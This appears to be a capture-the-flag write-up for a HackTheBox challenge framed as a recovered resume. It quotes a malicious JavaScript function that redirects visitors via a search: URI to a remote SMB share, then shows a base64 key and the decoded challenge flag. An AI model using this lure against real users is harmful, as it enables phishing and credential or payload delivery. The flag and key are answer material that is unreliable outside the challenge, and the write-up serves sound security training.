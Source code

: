 # Challenge
A new Hire

The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

![](assets/Pasted%20image%2020250322190826.png)

inspecting the page, we found a malicious script
![](assets/Pasted%20image%2020250322190842.png)

The exploit appears to involve **capturing SMB credentials** via a malicious JavaScript payload. The key part of the attack is in this function:

``` javascript
function getResume() {
      window.location.href=`search:displayname=Downloads&subquery=\\\\${window.location.hostname}@${window.location.port}\\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\`;
    }
```
visiting the directory, we can find some other directories. Enumerating each directories until we got the flag.

![](assets/Pasted%20image%2020250322191238.png)

![](assets/Pasted%20image%2020250322191255.png)

from config/client.py we got some key, decoding this will get us the flag. 

![](assets/Pasted%20image%2020250322191327.png)
``` python
key = base64.decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==")
```

![](assets/Pasted%20image%2020250322191358.png)

```
HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}
```